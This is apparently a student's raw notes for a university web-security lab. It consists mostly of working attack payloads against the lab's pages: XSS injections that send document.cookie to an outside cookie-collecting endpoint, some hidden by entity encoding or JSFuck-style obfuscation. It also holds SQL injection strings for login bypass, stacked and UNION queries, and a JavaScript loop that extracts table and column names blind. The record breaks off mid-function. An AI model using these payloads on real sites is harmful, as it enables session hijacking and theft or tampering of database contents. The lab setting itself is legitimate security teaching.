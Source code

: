 #P1

https://cse484.cs.washington.edu/lab2/pmc/simple.php?url=%3Cscript%3Evar+img+%3D+new+Image%28%29%3B+img.src+%3D+%22https%3A%2F%2Fhomes.cs.washington.edu%2F%7Ekskrish%2FcookieEater.php%3Fcookie%3D%22%2Bdocument.cookie%3C%2Fscript%3E

https://cse484.cs.washington.edu/lab2/pmc/simple.php?url=%3Cscript%3Ealert%28%27hi%27%29%3C%2Fscript%3E


<script>var img = new Image(); img.src = "https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie="+document.cookie</script>

<script>alert(document.cookie)</script>

---------
#P2

<img src="javascript:alert(document.cookie)" />
<img src="none" onerror="alert(document.cookie)">

https://cse484.cs.washington.edu/lab2/pmc/notsosimple.php?url=%3Cimg+src%3D%22none%22+onerror%3D%22alert%28document.cookie%29%22%3E


<img src="none" onerror="alert(document.cookie)">
<img src="none" onerror="var img = new Image(); img.src='https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie='+document.cookie">


https://cse484.cs.washington.edu/lab2/pmc/notsosimple.php?url=%3Cimg+src%3D%22none%22+onerror%3D%22var+img+%3D+new+Image%28%29%3B+img.src%3D%27https%3A%2F%2Fhomes.cs.washington.edu%2F%7Ekskrish%2FcookieEater.php%3Fcookie%3D%27%2Bdocument.cookie%22%3E

-----------
#P3

<img	src="javascr	ipt:alert(document.cookie)"/>
<img	width="calc(alert(document.cookie))"/>

<iframe	src="java&#x53;cript:alert(document.cookie)"/>

<img	src="java&#x73;cript:(new	Image()).src='https://homes.cs.washingt&#x6F;n.edu/~kskrish/cookieEater.php?cookie='+document.cookie"	/>

<iframe	src="java&#x73;cript:alert(1);var	xhr=new	XMLHttpRequest();alert(2);xhr.open('GET', 'https://homes.cs.washingt&#x6F;n.edu/~kskrish/cookieEater.php?cookie='+document.cookie, true);xhr.send();alert(3);"	/>

<iframe	src="java&#x73;cript:var&#x20;xhr=new&#x20;XMLHttpRequest();xhr.open('GET','https://homes.cs.washingt&#x6F;n.edu/~kskrish/cookieEater.php?cookie='+document.cookie);xhr.send();"	/>

https://cse484.cs.washington.edu/lab2/pmc/reallyhard.php?url=%3Ciframe%09src%3D%22java%26%23x73%3Bcript%3Avar%26%23x20%3Bxhr%3Dnew%26%23x20%3BXMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27https%3A%2F%2Fhomes.cs.washingt%26%23x6F%3Bn.edu%2F%7Ekskrish%2FcookieEater.php%3Fcookie%3D%27%2Bdocument.cookie%29%3Bxhr.send%28%29%3B%22%09%2F%3E


----------------

#P4

alt" onload="var xhr=new XMLHttpRequest&#x28;&#x29;;xhr.open&#x28;'GET','https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie='+&#x64;ocument.cookie&#x29;;xhr.send&#x28;&#x29;;"


https://cse484.cs.washington.edu/lab2/pmc/pie.php?url=alt%22+onload%3D%22var+xhr%3Dnew+XMLHttpRequest%26%23x28%3B%26%23x29%3B%3Bxhr.open%26%23x28%3B%27GET%27%2C%27https%3A%2F%2Fhomes.cs.washington.edu%2F%7Ekskrish%2FcookieEater.php%3Fcookie%3D%27%2B%26%23x64%3Bocument.cookie%26%23x29%3B%3Bxhr.send%26%23x28%3B%26%23x29%3B%3B%22


-----------------

#P5

msg"; var xhr=new XMLHttpRequest();xhr.open('GET','https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie='+document.cookie);xhr.send(); var msg2="



https://cse484.cs.washington.edu/lab2/pmc/vikings.php?url=msg%22%3B+var+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27https%3A%2F%2Fhomes.cs.washington.edu%2F%7Ekskrish%2FcookieEater.php%3Fcookie%3D%27%2Bdocument.cookie%29%3Bxhr.send%28%29%3B+var+msg2%3D%22

------------------

#P6

msg"; document.location=`https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie=${document.cookie}`; var msg2="

https://cse484.cs.washington.edu/lab2/pmc/volleyball.php?url=msg"; document.location=`https://homes.cs.washington.edu/~kskrish/cookieEater.php?cookie=${document.cookie}`; var msg2="

----------------

#P7


";m='$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\\""+$.$$_$+$._$+$.$$__+$._+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$_$+$.$$_+$.__+"."+(![]+"")[$._$_]+$._$+$.$$__+$.$_$_+$.__+"\\\\"+$.__$+$.$_$+$.__$+$._$+"\\\\"+$.__$+$.$_$+$.$$_+"=`\\\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\\\"+$.__$+$.$$_+$.___+"\\\\"+$.__$+$.$$_+$._$$+"://\\\\"+$.__$+$.$_$+$.___+$._$+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\\\"+$.__$+$.$$_+$._$$+".\\\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$.___+"\\\\"+$.__$+$.$_$+$.__$+"\\\\"+$.__$+$.$_$+$.$$_+"\\\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$$_+$._$_+"\\\\"+$.__$+$.$_$+$.__$+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$.___+"/"+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\\\"+$.__$+$.$$_+$._$_+".\\\\"+$.__$+$.$$_+$.___+"\\\\"+$.__$+$.$_$+$.___+"\\\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"=${"+$.$$_$+$._$+$.$$__+$._+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"}`"+"\\"")())();' ;mm=eval(m);n="







";m='$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+"+"+$.__$+");"+"\\"")())();';mm=eval(m);n="



";m='';mm=eval(m);n="

";m='$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\\""+$.$$_$+$._$+$.$$__+$._+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$_$+$.$$_+$.__+"."+(![]+"")[$._$_]+$._$+$.$$__+$.$_$_+$.__+"\\\\"+$.__$+$.$_$+$.__$+$._$+"\\\\"+$.__$+$.$_$+$.$$_+"=`\\\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\\\"+$.__$+$.$$_+$.___+"\\\\"+$.__$+$.$$_+$._$$+"://\\\\"+$.__$+$.$_$+$.___+$._$+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\\\"+$.__$+$.$$_+$._$$+".\\\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$.___+"\\\\"+$.__$+$.$_$+$.__$+"\\\\"+$.__$+$.$_$+$.$$_+"\\\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$$_+$._$_+"\\\\"+$.__$+$.$_$+$.__$+"\\\\"+$.__$+$.$$_+$._$$+"\\\\"+$.__$+$.$_$+$.___+"/"+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\\\"+$.__$+$.$$_+$._$_+".\\\\"+$.__$+$.$$_+$.___+"\\\\"+$.__$+$.$_$+$.___+"\\\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"=${"+$.$$_$+$._$+$.$$__+$._+"\\\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\\\"+$.__$+$.$_$+$._$$+"\\\\"+$.__$+$.$_$+$.__$+$.$$$_+"}`"+"\\"")())();';mm=eval(m);n="


https://cse484.cs.washington.edu/lab2/pmc/impossible.php?url=%22%3Bm%3D%27%24%3D%7E%5B%5D%3B%24%3D%7B___%3A%2B%2B%24%2C%24%24%24%24%3A%28%21%5B%5D%2B%22%22%29%5B%24%5D%2C__%24%3A%2B%2B%24%2C%24_%24_%3A%28%21%5B%5D%2B%22%22%29%5B%24%5D%2C_%24_%3A%2B%2B%24%2C%24_%24%24%3A%28%7B%7D%2B%22%22%29%5B%24%5D%2C%24%24_%24%3A%28%24%5B%24%5D%2B%22%22%29%5B%24%5D%2C_%24%24%3A%2B%2B%24%2C%24%24%24_%3A%28%21%22%22%2B%22%22%29%5B%24%5D%2C%24__%3A%2B%2B%24%2C%24_%24%3A%2B%2B%24%2C%24%24__%3A%28%7B%7D%2B%22%22%29%5B%24%5D%2C%24%24_%3A%2B%2B%24%2C%24%24%24%3A%2B%2B%24%2C%24___%3A%2B%2B%24%2C%24__%24%3A%2B%2B%24%7D%3B%24.%24_%3D%28%24.%24_%3D%24%2B%22%22%29%5B%24.%24_%24%5D%2B%28%24._%24%3D%24.%24_%5B%24.__%24%5D%29%2B%28%24.%24%24%3D%28%24.%24%2B%22%22%29%5B%24.__%24%5D%29%2B%28%28%21%24%29%2B%22%22%29%5B%24._%24%24%5D%2B%28%24.__%3D%24.%24_%5B%24.%24%24_%5D%29%2B%28%24.%24%3D%28%21%22%22%2B%22%22%29%5B%24.__%24%5D%29%2B%28%24._%3D%28%21%22%22%2B%22%22%29%5B%24._%24_%5D%29%2B%24.%24_%5B%24.%24_%24%5D%2B%24.__%2B%24._%24%2B%24.%24%3B%24.%24%24%3D%24.%24%2B%28%21%22%22%2B%22%22%29%5B%24._%24%24%5D%2B%24.__%2B%24._%2B%24.%24%2B%24.%24%24%3B%24.%24%3D%28%24.___%29%5B%24.%24_%5D%5B%24.%24_%5D%3B%24.%24%28%24.%24%28%24.%24%24%2B%22%5C%5C%22%22%2B%24.%24%24_%24%2B%24._%24%2B%24.%24%24__%2B%24._%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24_%24%2B%24.%24%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24%24_%2B%24.__%2B%22.%22%2B%28%21%5B%5D%2B%22%22%29%5B%24._%24_%5D%2B%24._%24%2B%24.%24%24__%2B%24.%24_%24_%2B%24.__%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24%24_%2B%22%3D%60%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.___%2B%24.__%2B%24.__%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24.___%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22%3A%2F%2F%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.___%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24_%24%2B%24.%24%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22.%22%2B%24.%24%24__%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22.%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24.%24%24%24%2B%24.%24_%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.___%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24__%2B%24.%24%24%24%2B%24.__%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24%24_%2B%22.%22%2B%24.%24%24%24_%2B%24.%24%24_%24%2B%24._%2B%22%2F%7E%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.___%2B%22%2F%22%2B%24.%24%24__%2B%24._%24%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%24.%24%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.___%2B%24.%24_%24%2B%24.%24_%24_%2B%24.__%2B%24.%24%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24._%24_%2B%22.%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24.___%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.___%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24%24_%2B%24.___%2B%22%3F%22%2B%24.%24%24__%2B%24._%24%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%24.%24%24%24_%2B%22%3D%24%7B%22%2B%24.%24%24_%24%2B%24._%24%2B%24.%24%24__%2B%24._%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24_%24%2B%24.%24%24%24_%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.%24%24_%2B%24.__%2B%22.%22%2B%24.%24%24__%2B%24._%24%2B%24._%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24._%24%24%2B%22%5C%5C%5C%5C%22%2B%24.__%24%2B%24.%24_%24%2B%24.__%24%2B%24.%24%24%24_%2B%22%7D%60%22%2B%22%5C%5C%22%22%29%28%29%29%28%29%3B%27%3Bmm%3Deval%28m%29%3Bn%3D%22


----------------

#P8

";_$=;_$$=eval(_$);_$$$="

";$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+(![]+"")[$._$_]+$._$+$.$$__+$.$_$_+$.__+"\\"+$.__$+$.$_$+$.__$+$._$+"\\"+$.__$+$.$_$+$.$$_+"=`\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"/"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=${"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"}`"+"\"")())();_$="


$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\\""+"("+$.$$$$+$._+"\\\\"+$.__$+$.$_$+$.$$_+$.$$__+$.__+"\\\\"+$.__$+$.$_$+$.__$+$._$+"\\\\"+$.__$+$.$_$+$.$$_+"\\\\"+$.$__+$.___+$.$$$$+"(){"+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\\\"+$.__$+$.$$_+$._$_+$.__+"("+$.__$+$._$_+$._$$+$.$__+")})()"+"\\"")())();



-----------------

#P1

SELECT * FROM Users WHERE Username='$username' AND Password='$password'


1' or '1' = '1' -- 
SELECT * FROM Users WHERE Username='1' or '1' = '1' -- ' AND Password='$password'


user name (optional)
1' or '1' = '1

password (needed)
1' or '1' = '1

SELECT * FROM Users WHERE Username='1' or ('1' = '1' AND Password='$password')

SELECT * FROM Users WHERE (Username='$username' AND Password='1') or '1' = '1'

SELECT * FROM Users WHERE Username='1' or ('1' = '1' AND Password='1') or '1' = '1'

https://cse484.cs.washington.edu/lab2/jailbreak/mario.php?username=1%27+or+%271%27+%3D+%271&password=1%27+or+%271%27+%3D+%271


username
1' or '1' = '1' or '2
1' or '1' = '1' or 2 (doesn't work)

need valid sql, so comment doesn't work

SELECT * FROM Users WHERE Username='1' or '1' = '1' or ('2' AND Password='$password')



https://cse484.cs.washington.edu/lab2/jailbreak/mario.php?username=1%27+or+%271%27+%3D+%271%27+or+%272&password=

----------------

#P2



80', NOW()), (1, 'karunasagark ', 1, '81', NOW());


>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>



-- create a table
CREATE TABLE sql2 (
  groups_name VARCHAR(255) PRIMARY KEY,
  name VARCHAR(255) NOT NULL,
  approved INTEGER NOT NULL,
  timestamp DATETIME NOT NULL
);

IF EXISTS (SELECT name, approved FROM sql2 where name = '$name' and approved = '1') THEN
  SELECT name, approved FROM sql2 WHERE name = '$name'
ELSE
  INSERT INTO sql2 (approved, groups_name, name, timestamp) VALUES (0, CONCAT('karunasagark -', '$name'), '$name', NOW())
END IF;


52' UNION ALL SELECT 'karunasagark -1', '1', '1', NOW()
52' UNION ALL SELECT 'karunasagark -1', '1', NOW(), '1'
52' UNION ALL SELECT 'karunasagark -1', NOW(), '1', '1'
52' UNION ALL SELECT '1', 'karunasagark -1', '1', NOW()
52' UNION ALL SELECT '1', 'karunasagark -1', NOW(), '1'
52' UNION ALL SELECT NOW(), 'karunasagark -1', '1', '1'
52' UNION ALL SELECT '1', '1','karunasagark -1', NOW()
52' UNION ALL SELECT '1', NOW(),'karunasagark -1', '1'
52' UNION ALL SELECT NOW(), '1','karunasagark -1', '1'
52' UNION ALL SELECT '1', '1', NOW(), 'karunasagark -1'
52' UNION ALL SELECT '1', NOW(), '1', 'karunasagark -1'
52' UNION ALL SELECT NOW(), '1', '1', 'karunasagark -1'


' OR approved = '1 --


70', (IF(1=1) SELECT 508 ELSE SELECT 405));
73', IF((SELECT COUNT(*) FROM sql2 WHERE approved=1)=0, 456, 789));
73', IF((SELECT CONCAT(groups_name, approved))=0, 456, CONCAT(name, approved)));

70', IF(1=1, (SELECT name FROM sql2 WHERE approved=1 LIMIT 1), 789));
70', IF(1=1, (SELECT name FROM sql4 WHERE approved=1 LIMIT 1), 789));


80', NOW()), (1, 'karunasagark ', 1, '81', NOW());


select approved from sql2 where name = '$name'


$name', NOW())


1' select 1

error msg
 'select 1', NOW())' 

51', NOW()); NOW()

51', DATABASE());
52', LAST_INSERT_ID());
52', ASCII(name));

52", ASCII(name));

51', asdf()); select 1
  execute command denied to user 'lab2_sql2'@'localhost' for routine 'lab2.asdf'

accepted.. but it makes entry in the database
1', NOW()); select 1
 

1', NOW()) union select 1
error
 'union select 1', NOW())



1', NOW()); (select 1, '1
error
Duplicate entry 'karunasagark -1' for key 'sql2.groups_name'

its also making an entry if not found

groups_name column
$cookie + '-' + $name


3'); select '1
eror
Column count doesn't match value count at row 1



3', NOW()); select '1
accepted, entry made

3', '1234'); UPDATE sql2 SET approved=1 where timestamp='1234'; -- 
accepted, but no updae

3', UPDATE sql2 SET approved=1; SELECT NOW();); -- 
syntax error

Hi 1, unfortunately the request you submitted on 2024-11-11 14:28:34 was not approved.


Hi 2, unfortunately the request you submitted on 2024-11-11 14:42:22 was not approved.


Hi 3, unfortunately the request you submitted on 2024-11-11 14:46:18 was not approved.



Hi 4, unfortunately the request you submitted on 2024-11-11 14:48:09 was not approved.

approved, groups_name, name, datetime

19', NOW()); insert into sql2 values ('20', true, 'karunasagark -20', NOW()); select '1

40', NOW()); insert into sql2 (groups_name, name, approved) values ('karunasagark -1', '1', 'true');

32', NOW()); insert into sql;

- check if name is in table (SQL)
  - if available
    - if approved, success
    - if not, return error with timestamep
  - if not available
    - make entry into table
      - error

50', (insert into sql2 (groups_name, name, approved) values('karunasagark -51', '51', true)));

40', (select 676)); 

40', (update sql2 set name=1; now())); select 1

40' union select 1,2,3,4


select approved from sql2 where name = '50'; UPDATE sql2 SET approved = true; select '1';


----------
#P3

select * from output where command = '$input'

fight' or (select substr(table_name,1,1) from information_schema.tables limit 1)='A'); -- 
fight' or (select substr(table_schema,1,1) from information_schema.tables limit 1)='A'); -- 

fight' or (select substr(table_name,1,1) from information_schema.tables where table_schema='lab2' group by table_name order by table_name limit 1)='A'); -- 
fight' or (select substr(table_schema,1,1) from information_schema.tables group by table_schema order by table_schema limit 1)='A'); -- 


fight' or (select substr(column_name,1,1) from information_schema.columns where table_name='sql3-truepower' group by column_name order by column_name limit 1)='A'); -- 


fight' or (select substr(whatyoucanreallydo,1,1) from `sql3-truepower` limit 1)='A'); -- 


hacktheplanet
HACKTHEPLANET




async function fetchDataAndCheckWord(url, char, charPos, word) {
    try {
        const response = await fetch(url);
        if (!response.ok) {
            throw new Error('Network response was not ok ' + response.statusText);
        }
        const data = await response.text();
        const containsWord = data.includes(word);
        // console.log(`Does the response contain the word "${word}"?`, containsWord);
        if (containsWord) {
            console.log(`Found ${char} at position ${charPos}`);
        }
    } catch (error) {
        console.error('There has been a problem with your fetch operation:', error);
    }
}

function getTableName() {
    for (let j = 0; j < 100; j++) {
      for (let i = 32; i <= 126; i++) {
          const char = String.fromCharCode(i);
          fetchDataAndCheckWord("https://cse484.cs.washington.edu/lab2/jailbreak/undefeatableboss.php?command=fight%27+or+%28select+substr%28table_name%2C"+j+"%2C1%29+from+information_schema.tables+where+table_schema%3D%27lab2%27+group+by+table_name+order+by+table_name+limit+1%2C1%29%3D%27"+char+"%27%29%3B+--+", char, j, "spell");
      }
    }
}

function getTableSchema() {
  for (let j = 0; j < 100; j++) {
    for (let i = 32; i <= 126; i++) {
        const char = String.fromCharCode(i);
        fetchDataAndCheckWord("https://cse484.cs.washington.edu/lab2/jailbreak/undefeatableboss.php?command=fight%27+or+%28select+substr%28table_schema%2C"+j+"%2C1%29+from+information_schema.tables+group+by+table_schema+order+by+table_schema+limit+1%2C1%29%3D%27"+char+"%27%29%3B+--+", char, j, "spell");
    }
  }
}

function getColName() {
  for (let j = 0; j < 100; j++) {
    for (let i = 32; i <= 126; i++) {
        const char = String.fromCharCode(i);
        fetchDataAndCheckWord("https://cse484.cs.washington.edu/lab2/jailbreak/undefeatableboss.php?command=fight%27+or+%28select+substr%28column_name%2C"+j+"%2C1%29+from+information_schema.columns+where+table_name%3D%27sql3-truepower%27+group+by+column_name+order+by+column_name+limit+1%29%3D%27"+char+"%27%29%3B+--+", char, j, "spell");
    }
  }
}

function getCommands() {
  for (let j = 0; j < 100; j++) {
    for (let i = 32; i <= 126; i++) {
        const char = String.fromCharCode(i);
